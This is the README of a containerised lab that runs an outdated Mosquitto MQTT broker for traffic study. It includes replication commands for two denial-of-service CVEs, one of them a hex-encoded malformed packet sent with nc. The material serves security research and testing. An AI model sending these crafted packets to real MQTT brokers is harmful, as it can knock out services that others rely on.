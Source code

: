 # MQTT-in-Containers
This virtual environment was created to observe and study MQTT communications, running a deprecated version of the [Mosquitto](https://mosquitto.org/) broker (version 2.0.5). There is a version with encrypted and one without encrypted traffic for you to try. We replicated two DoS attacks, namely CVE-2023-5632 and CVE-2021-34432. Further down we have included some steps on how to replicate these.

Here is a quick rundown of how to use the files in this repo:

1. We recommend you use Linux or WSL for Windows environments.
2. You need to [install Docker](https://docs.docker.com/get-started/get-docker/) to run the containers.
3. With "sudo docker compose up" you can start up all containers mentioned in the specific compose file
4. You can then capture the traffic in Wireshark for example, although finding the correct interface is not always easy.
5. The ip adresses for the encrypted setup are static, you can change it in the compose file if needed. 
6. Play around with different settings, creating your own certificates (if you dare), topics etc. 

Note: The password for any certificate file is "test"

CVE-2023-5632
This CVE works with the encrypted Broker. To trigger the exploit all you need is the following command. The ip adress is static and should work unless you changed it:
openssl s_client -connect 172.23.0.2:8883
It might be beneficial to limit the number of cpu cores of your testing enviroment. For WSL this can be done in the WSL settings.
CVE-2021-34432
This command only works with the unencrypted broker and if allow_anonymous is set to true in the mosquitto.conf file. But could also be replicated for the encrypted broker if you are able to sucessfully authenticate a package with topic length 0.
echo 102b00044d5154540500003c0822000a110000000f00166d7174746f6f6c732d383739363736313532303132393d0900000621000a220005e000 | xxd -p -r | nc localhost 1883

